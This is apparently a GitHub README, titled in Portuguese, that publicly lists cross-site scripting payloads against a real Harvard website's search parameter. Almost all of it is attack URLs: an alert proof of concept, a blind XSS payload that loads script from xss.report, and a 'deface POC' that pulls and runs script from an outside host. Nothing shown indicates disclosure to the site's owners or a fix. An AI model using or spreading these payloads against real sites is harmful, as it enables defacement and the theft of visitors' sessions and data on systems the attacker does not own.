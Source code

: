 # Harvard-University-XSS
## XSS Encontrados Na Universidade De Harvard

![JavaScript](https://img.shields.io/badge/JavaScript-F7DF1E?style=for-the-badge&logo=javascript&logoColor=black)
## Bug : XSS


## alert Bug 🤷‍♀️
```
https://bhi.fas.harvard.edu/?s=e%27%22()%26%25%3Czzz%3E%3CScRiPt%20%3Ealert(9155)%3C/ScRiPt%3E
```

## blind XSS 🤷‍♀️ 
```
https://bhi.fas.harvard.edu/?s=e%27%22()%26%25%3Czzz%3E%27%22%3E%3Cscript%20src=https://xss.report/c/{username}%3E%3C/script%3E
```

## deface POC : 
```
https://bhi.fas.harvard.edu/?s=e%27%22()%26%25%3Czzz%3E%27%22%3E%3Cscript%20src=https://jso-tools.z-x.my.id/raw/~/2FD8N5LJDAGNG%3E%3C/script%3E
```
